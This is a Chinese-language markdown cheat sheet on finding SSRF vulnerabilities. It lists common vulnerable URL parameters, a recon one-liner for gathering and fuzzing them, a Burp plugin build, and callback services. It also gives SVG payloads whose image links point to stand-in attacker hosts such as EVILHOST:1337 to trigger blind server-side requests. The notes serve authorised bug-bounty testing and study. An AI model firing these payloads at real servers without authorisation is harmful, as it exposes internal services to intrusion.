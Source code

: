 # SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路

![Et9d-mlXYAE7cg0](常用的SSRF参数.assets/Et9d-mlXYAE7cg0-3134197.jpeg)





### 0x1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter

## 0x1.3 one-liner

```
1 Run getallurls for all assets & merge results
2 `cat results | grep "url="| anti-burl | tee ssrf.txt`
3 Review & cleanup list 
4 Fuzz all "url-like" params w/ Burp collab & #ffuf
```





## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```



##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203



## 相关的在线工具

记录触发点:

 https://ssrftest.com/

https://webhook.site/ (可以自定义文件内容)